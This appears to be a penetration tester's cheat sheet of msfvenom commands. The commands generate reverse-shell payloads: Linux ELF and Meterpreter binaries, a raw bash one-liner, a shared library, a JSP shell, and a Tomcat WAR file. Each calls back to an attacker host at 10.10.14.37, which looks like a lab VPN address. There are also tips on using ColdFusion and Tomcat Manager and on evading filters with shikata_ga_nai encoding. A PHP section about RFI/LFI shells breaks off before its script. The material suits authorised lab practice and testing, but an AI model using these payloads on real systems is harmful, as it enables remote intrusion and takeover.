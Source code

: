 #### Linux

Linux Meterpreter Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f elf -o lin_met_revhttp_8000.elf
```

Linux Reverse TCP Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f elf -o lin_revtcp_8000.elf
```

Running a payload in BASH (remember to enclose in single quotes)

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.37 LPORT=8000 -f raw
```

ELF-SO File (Linux Linked Libraries)

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f elf-so -o lin_revtcp_8000.so
```



#### JSP

I used this on ColdFusion, the application executes the Java code rather than the Windows system.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=80 -f raw > rev_jsp_80.jsp
```

#### WAR files

Apache Tomcat's Manager also uses Java as `war` files.  Just use the `war`output format:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f war -o shell.war
```

#### Encoding a Payload

```bash
# Add this to the command
-e x86/shikata_ga_nai -b "\x00"
```

### PHP

With RFI/LFI, you can always start a reverse shell using the PHP cmd script, but you can also just pass it this script and automatically start a reverse shell without needing to pass a command:

NOTE:  If using echo to place this, be sure to escape the proper characters.  From bash, the double quotes need to be escaped.
